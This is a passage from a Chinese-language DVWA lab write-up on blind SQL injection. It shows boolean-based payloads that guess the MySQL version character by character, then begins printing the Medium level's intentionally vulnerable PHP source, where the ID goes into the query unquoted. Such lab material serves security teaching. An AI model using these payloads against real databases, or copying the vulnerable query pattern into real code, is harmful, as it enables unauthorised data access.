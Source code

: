 直到 `1' and length(substr((select version()),1)) = 6 #`，返回查询成功，则说明版本号为六位

![image-20220823164305127](./Lab7_SQL_Injection.assets/image-20220823164305127.png)



然后测试出版本号

周所周知，一般版本号都是 x.x.x.x 之类的组成 ( 'x' 代表数字)，而 MySQL 一般为 x.x.xx

进行逐个尝试或猜测

```mysql
1' and substr((select version()),1,1) = '5' #
1' and substr((select version()),2,1) = '.' #
1' and substr((select version()),3,1) = '5' #
1' and substr((select version()),4,1) = '.' #
1' and substr((select version()),5,1) = '3' #
1' and substr((select version()),6,1) = '3' #
```

![image-20220823164749777](./Lab7_SQL_Injection.assets/image-20220823164749777.png)

最后拼接得到 MySQL 版本为 5.5.33



## Medium

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors

            $exists = false;
            if ($result !== false) {
                try {
```